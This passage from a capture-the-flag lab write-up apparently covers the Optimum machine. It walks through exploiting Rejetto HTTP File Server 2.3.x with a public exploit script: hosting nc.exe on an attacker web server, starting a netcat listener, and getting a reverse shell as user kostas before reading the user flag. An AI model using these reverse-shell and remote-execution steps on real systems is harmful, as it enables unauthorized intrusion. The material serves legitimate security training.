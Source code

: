 # Exploitation (1)

The ```Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)``` seems promising. After copying it, we will need to setup a web server that hosts a `nc.exe`.

```bash
$ mkdir web
$ cd web
$ cp /usr/share/windows-resources/binaries/nc.exe .
$ sudo updog -p 80
[sudo] password for kali: 
[+] Serving /home/kali/Desktop/web...
 * Running on http://0.0.0.0:80/ (Press CTRL+C to 
```

Then, we start our `nc` listener.

```bash
$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
```

And finally we modify the `ip_addr` and `local_port` variable in the script and run it.
```bash
$ cat 39161.py
...
        ip_addr = "10.10.XX.XX" #local IP address
        local_port = "1337" # Local Port number

$ python 39161.py optimum.htb 80
```

We will see some requests for `nc.exe` on our web server as well as see that we got a shell as `kostas`.

```bash
$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.8] 49158
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserve

C:\Users\kostas\Desktop> whoami
optimum\kostas
```

# user.txt

The user flag is in `kostas`'s Desktop.

```
C:\Users\kostas\Desktop> type user.txt.txt
d0c3XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```
